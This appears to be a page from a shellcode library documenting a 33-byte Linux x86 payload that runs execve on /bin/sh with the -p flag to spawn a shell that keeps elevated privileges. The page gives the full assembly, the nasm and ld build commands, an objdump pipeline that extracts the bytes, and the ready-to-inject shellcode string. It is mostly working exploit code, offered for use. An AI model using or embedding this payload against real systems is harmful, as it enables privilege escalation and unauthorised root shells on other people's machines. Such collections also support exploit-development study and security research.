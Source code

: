 ```yaml
---
layout: default
title: execve("/bin/sh", ["/bin/sh", "-p"], 0) - Spawn shell maintaining privileges
permalink: /shellcode/asm-02.html
os: Linux
arch: Intel x86
length: 33
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor eax, eax		; null eax
	push eax		; push null terminator
	push 0x68732f2f		; push "//sh"
	push 0x6e69622f		; push "/bin"
	mov ebx, esp		; move pointer to "/bin//sh" into ebx

	push eax		; push null terminator
	push word 0x702d	; push "-p"
	mov ecx, esp		; move pointer to "-p" into ecx

	push eax		; push null terminator
	push ecx		; push pointer to "-p"
	push ebx		; push pointer to "/bin//sh"
	mov ecx, esp		; move array of pointers {"/bin//sh", "-p"} into ecx

	xor edx, edx		; null edx
	mov al, 0xb		; move execve syscall number into al (eax)
	int 0x80		; call execve
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf -o code.o code.asm

# Link
ld -m elf_i386 -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```